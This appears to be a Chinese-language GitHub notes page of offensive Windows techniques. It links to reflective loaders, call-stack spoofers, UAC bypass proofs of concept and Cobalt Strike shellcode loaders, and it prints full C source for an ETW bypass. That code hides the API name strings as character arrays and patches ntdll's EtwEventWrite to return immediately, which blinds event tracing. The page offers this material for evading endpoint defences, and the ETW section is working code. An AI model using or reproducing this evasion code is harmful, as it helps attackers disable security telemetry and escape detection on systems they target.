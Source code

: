 # 基础学科

* 反射加载器 [ https://github.com/monoxgas/sRDI ]
* 调用栈伪造 [ https://github.com/WithSecureLabs/CallStackSpoofer , https://github.com/Barracudach/CallStack-Spoofer ]
* Wow64进程执行64位代码 [ https://github.com/rwfpl/rewolf-wow64ext ]


# 常见终端绕过（或检测）技术

## Bypass UAC
* 通过环境变量(DLL)劫持iscsicpl, 不支持win7 [ https://github.com/zha0gongz1/iscsicpl_bypassUAC ]
* ICMLuaUtil接口(通杀win7-win11 墙裂推荐⭐) [ https://github.com/dro/uac-launchinf-poc/blob/master/poc.c ]

## CS(SHELLCODE) 内存检测
* https://github.com/thefLink/Hunt-Sleeping-Beacons

## CS(SHELLCODE) 加载器
* AceLdr [ https://github.com/kyleavery/AceLdr ], 具备`shellcode`运行时加解密, 调用栈伪造等特性 (TitanLdr框架 + FOLIAGE + RET_ADDR_SPOOFING)
* TitanLdr [ https://github.com/kyleavery/TitanLdr ], 原版 D2H 的`shellcode`加载器, 粗略看过一遍


## Bypass ETW
```C

int DisableETW(void) {
	unsigned char strVirtualProtect[] = { 'V','i','r','t','u','a','l','P','r','o','t','e','c','t',0x0 };
	unsigned char strFlushInstructionCache[] = { 'F','l','u','s','h','I','n','s','t','r','u','c','t','i','o','n','C','a','c','h','e',0x0 };
	WCHAR strKernel32dll[] = { 'K','e','r','n','e','l','3','2','.','d','l','l',0x0 };
	WCHAR strNtdlldll[] = { 'N','t','d','l','l','.','d','l','l',0x0 };

	VirtualProtect_t VirtualProtect_p = (VirtualProtect_t)hlpGetProcAddress(hlpGetModuleHandle(strKernel32dll), (LPCSTR)strVirtualProtect);
	t_FlushInstructionCache pFlushInstructionCache = (t_FlushInstructionCache)hlpGetProcAddress(hlpGetModuleHandle(strKernel32dll), strFlushInstructionCache);

	DWORD oldprotect = 0;

	unsigned char sEtwEventWrite[] = { 'E','t','w','E','v','e','n','t','W','r','i','t','e', 0x0 };

	void* pEventWrite = hlpGetProcAddress(hlpGetModuleHandle((LPCSTR)strNtdlldll), (LPCSTR)sEtwEventWrite);

	VirtualProtect_p(pEventWrite, 4096, PAGE_EXECUTE_READWRITE, &oldprotect);

#ifdef _WIN64
	memcpy(pEventWrite, "\x48\x33\xc0\xc3", 4); 		// xor rax, rax; ret
#else
	memcpy(pEventWrite, "\x33\xc0\xc2\x14\x00", 5);		// xor eax, eax; ret 14
#endif

	VirtualProtect_p(pEventWrite, 4096, oldprotect, &oldprotect);
	pFlushInstructionCache(-1, pEventWrite, 4096);
	return 0;
}

// https://github.com/Allevon412/BreadBear/blob/4f1f5da39b423f0655df9338e01c8b733c6d1152/stage1/Evasion.c
```

